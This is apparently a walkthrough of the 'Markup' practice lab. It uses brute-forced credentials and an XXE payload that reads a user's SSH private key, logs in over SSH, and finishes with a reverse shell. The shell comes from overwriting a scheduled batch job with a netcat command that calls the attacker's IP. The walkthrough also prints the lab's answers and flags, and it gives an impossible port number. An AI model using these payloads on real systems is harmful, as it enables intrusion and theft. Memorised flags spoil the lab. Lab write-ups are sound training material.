 ### Markup

**OS:** Windows<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** Apache, SSH, PHP, Reconnaissance, Scheduled Job Abuse, Weak Credentials, Arbitrary File Upload, XXE Injection, Weak Permissions<br>

---

#### Task 1
**What version of Apache is running on the target's port 80?**
> 2.4.41

![Nmap Scan](nmap.png)

#### Task 2
**What username:password combination logs in successfully?**
> admin:password

We use Hydra to find valid credentials:

![Hydra](hydra.png)

#### Task 3
**What is the word at the top of the page that accepts user input?**
> Order

![Order](order.png)

#### Task 4
*What XML version is used on the target?*
> 1.0

We make an order and use Burp Suite to intercept the request. We see that the XML version is hardcoded into HTTP POST Request data:

```xml
<?xml version = "1.0"?>
    <order>
        <quantity>1</quantity>
        <item>1</item>
        <address>Test</address>
    </order>
```

#### Task 5
**What does the XXE / XEE attack acronym stand for?**
> XML External Entity

#### Task 6
**What username can we find on the webpage's HTML code?**
> Daniel

Looking at the underlying source code on the orders page, we see a comment:

```html
<!-- Modified by Daniel : UI-Fix-9092-->
```

#### Task 7
**What is the file located in the Log-Management folder on the target?**
> job.bat

We can use Burp Suite to send and XEE Payload for a LFI vulnerability:

```xml
<?xml version = "1.0"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "file:///C:/users/daniel/.ssh/id_rsa">
]>
<order>
    <quantity>1</quantity>
    <item>&file;</item>
    <address>Test</address>
</order>
```

We get the value of David's SSH Key from the LFI and use it to to authenticate to the target system:

```Bash
$ nano ~/.ssh/id_rsa
$ chmod 700 ~/.ssh
$ chmod 600 ~/.ssh/id_rsa
ssh -i ~/.ssh/id_rsa daniel@10.129.95.192
```

Once in the target system, we see that there is a file `job.bat` in the C:\Log-Management directory.



---

#### Task 8
*What executable is mentioned in the file mentioned before?*
> wevtutil.exe 

We view the contents of `job.bat`:

```
@echo off 
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

---



---

#### User Flag
> 032d2fc8952a8c24e39c8f0ee9918ef7



#### Root Flag
> f574a3e7650cebd8c39784299cb570f8

We setup a listener on port `123456` of our computer. Then we transfer the Netcat Executable `nc.exe` to the `C:\Log-Management` folder of the target computer. We overwrite the contents of `job.bat` to open a reverse Windows Command Shell. Since the `job.bat` executable runs with Administrator permissions, our command shell will also run with Administrator permissions:

```Powershell
daniel@MARKUP C:\Log-Management>echo C:\Log-Management\nc.exe -e cmd.exe 10.10.15.75 123456 > job.bat
```

---

---